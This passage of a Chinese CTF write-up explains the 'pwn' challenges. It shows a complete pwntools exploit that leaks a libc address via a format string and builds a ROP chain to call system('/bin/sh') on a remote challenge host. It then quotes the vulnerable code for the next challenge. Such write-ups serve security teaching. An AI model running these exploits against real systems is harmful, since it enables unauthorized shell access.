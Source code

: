 随后我们用和 pwn4 相同的方法找到 `pop rdi; ret` 的 `gadget` 地址 `0x400933` 就可以用类似的办法构造 payload 了。需要注意的是，程序中还限制了第二次输入的字符串必须包含 `鸽子` 和 `真香` 两个子串。

最后的 payload：

```python
# coding:utf-8
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')
p = remote('114.116.54.89', 10005)
#p=process('./human')

p.recvline()
p.recvline()
p.sendline('%11$p')

libc_leak = int(p.recvuntil('\n')[2:-1], 16)
offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_str_bin_sh = 0x18cd57

base = libc_leak - offset___libc_start_main_ret
system_addr = base + offset_system
binsh_addr = base + offset_str_bin_sh

pop_rdi = 0x400933

payload = '鸽子真香'.ljust(0x28,'a')
payload += p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

p.recvuntil('?\n')
p.sendline(payload)

p.interactive()
```

## pwn3

本题 `vuln` 函数关键代码：

```c
puts("write some note:");
puts("  please input the note len:");
note_len = 0;
__isoc99_scanf("%d", &note_len);
puts("please input the note:");
read(0, thinking_note, (unsigned int)note_len);
puts("the note is:");
puts(thinking_note);
if (strlen(thinking_note) != 624 )
{
  puts("error: the note len must be  624");
  puts("  so please input note(len is 624)");
  read(0, thinking_note, 0x270uLL);
}
```
